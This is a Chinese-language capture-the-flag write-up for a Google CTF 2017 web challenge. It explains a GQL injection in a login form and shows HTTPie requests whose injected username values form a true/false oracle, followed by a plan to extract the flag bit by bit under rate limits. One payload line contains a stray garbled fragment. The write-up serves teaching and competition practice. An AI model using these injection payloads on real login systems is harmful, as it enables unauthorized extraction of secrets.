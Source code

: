 题目每次随机一个 host，而 flag 由 host 算出，很明显是一个 host 对应一个 flag。

程序很短，看完后会发现其实就是每次从数据库中取出 flag 与输入对比，如果对了会返回输入。
很显然，我们即使通过任何方式使得校验通过，走到最后一步，我们也只是拿到我们的输入，而不是 flag。
那么，这题一定不是要想办法绕过验证。
而 flag 是通过 host + 一个 secret hmac 算出，在没有 secret 的情况下，我们显然不可能计算 key。

仔细观察程序，我们会发现，虽然程序使用了 Google APP 特有的数据库，通过 gql 操作，但是还是有着 SQL 类似的语法，
而程序中通过格式化字符串将我们的输入传入了 gql 中，这很明显符合 SQL injection 的特点。
于是测试会发现确实存在 SQLi，只是语法很受限制。

```
➜  (ripples-MBP) ~/workspace/CTF/google-ctf/A7  http -v --form POST http://opsczz72www-abuse.web.ctfcompetition.com/login user="admin' AND password 额的返回会触发 exception= 'a" password=CTF{123}
POST /login HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 60
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: opsczz72www-abuse.web.ctfcompetition.com
User-Agent: HTTPie/0.9.9

user=admin%27+AND+password+%3C%3D+%27a&password=CTF%7B123%7D

HTTP/1.1 302 Found
Cache-Control: no-cache
Content-Length: 0
Content-Type: text/html; charset=utf-8
Date: Sun, 18 Jun 2017 17:14:00 GMT
Location: http://opsczz72www-abuse.web.ctfcompetition.com/index.html?e=Wrong%20password
Proxy-Connection: keep-alive
Server: Google Frontend
X-Cloud-Trace-Context: c47917affb36aa4dc6577863a5d79b09



➜  (ripples-MBP) ~/workspace/CTF/google-ctf/A7  http -v --form POST http://opsczz72www-abuse.web.ctfcompetition.com/login user="admin' AND password > 'a" password=CTF{123}
POST /login HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 57
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: opsczz72www-abuse.web.ctfcompetition.com
User-Agent: HTTPie/0.9.9

user=admin%27+AND+password+%3E+%27a&password=CTF%7B123%7D

HTTP/1.1 302 Found
Cache-Control: no-cache
Content-Length: 0
Content-Type: text/html; charset=utf-8
Date: Sun, 18 Jun 2017 17:14:29 GMT
Location: http://opsczz72www-abuse.web.ctfcompetition.com/index.html?e=Wrong%20username
Proxy-Connection: keep-alive
Server: Google Frontend
X-Cloud-Trace-Context: aab779873157ec579976f4c103a17aa9
```

通过上面的 payload，我们实现了一个 01 测试，于是只要一位位的二分判断，我们最终能够拿到 flag。

但是，程序中有着大量访问频率的限制，归结起来如下：

1. 30s 内只能访问 13 次
1. 30s 内只能触发 error 2 次
1. 一个 host 只能使用 2240 次

而 flag 有 64 位需要爆破，这意味着平均一位需要在 35s 内猜出，而 wrong password 的返回会触发 error，很显然这样时间很吃紧。

第一个想法当然是是否可以通过一个域名注入猜测其它域名的 flag，但在 gql 中似乎不容易实现。
那么我们就只好进行优化，这似乎也印证了题目为什么要设置成不唯一确定 flag 的形式。
优化其实也很明显，无非就是切分不是无脑二分，同时尽量不要做无谓的等待，尽量重复利用允许的请求次数上限。
由于不确定怎样最快，最后实现了多个版本，改好一个跑起来改改策略同时跑起来，能不能跑出来就看运气了。
